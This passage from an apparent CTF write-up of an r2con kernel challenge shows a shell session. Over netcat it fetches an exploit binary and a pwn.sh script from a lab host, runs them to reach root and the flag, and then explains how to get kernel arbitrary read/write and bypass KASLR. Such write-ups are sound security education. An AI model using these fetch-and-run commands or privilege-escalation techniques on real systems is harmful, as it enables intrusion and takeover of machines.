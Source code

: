 ```sh
~ $ cd ; nc 10.0.2.2 1234 > exploit ; chmod +x exploit
~ $ nc 10.0.2.2 1234 > pwn.sh ; chmod +x pwn.sh
~ $ ./exploit
[...] 

[  224.945090] Initialized socket with buffer size 0
[  224.945510] New socks successfully created!
[  224.945917] Initialized socket with buffer size 0
[  224.946287] New socks successfully created!
[  224.946534] Initialized socket with buffer size 0
[  224.946937] New socks successfully created!
[  224.947368] Initialized socket with buffer size 0
[  224.947970] New socks successfully created!
[  224.948379] New socks successfully created!
[  224.948831] Initialized socket with buffer size ffffffffffffffff
[*] Trying to listen in test_socket
[  224.952268] Length of name: 11
[  224.952476] Searching for socket test_socket
[  224.952845] Socket is now listening at test_socket
[  224.953220] Initialized socket with buffer size 0
[*] Trying to connect to test_socket
[  224.954180] Length of name: 11
[  224.954473] Searching for socket test_socket
[  224.955079] Successfully connected to test_socket
~ $ cat flag.txt 
r2con{06e6ec5e2653a51e6e383ee4776a6670}
~ $ cat /tmp/pwn3d 
uid=0(root) gid=0(root)
~ $ 
```

See `exploit_modprobe_path.c` for this solution. Make sure you also place the 
`pwn.sh` script in `/home/user/` if you test it.

## Exploitation - stable arbitrary read/write and KASLR bypass

I was chatting with [@dialluvioso_](https://twitter.com/dialluvioso_) while he tried 
to solve the challenge, and he mentioned he wanted to avoid the `modprobe_path` 
solution and also assume KASLR was on.

I hadn't really thought much about it for this challenge, but given the bug 
it is obvious that one can easily get arbitrary read/write by correctly setting
up the `sock_buf_t` structure.

However, for bypassing KASLR one needs to know some valid kernel pointer before 
attempting to e.g. find the current task structure and change its credentials.

Additionally, if we smash a `sock_buf_t` via a `send` like we did above, the write 
index for the corresponding socket gets incremented as well. For this reason, 
you cannot simply overwrite the `sock_buf_t` over and over by sending additional
data.
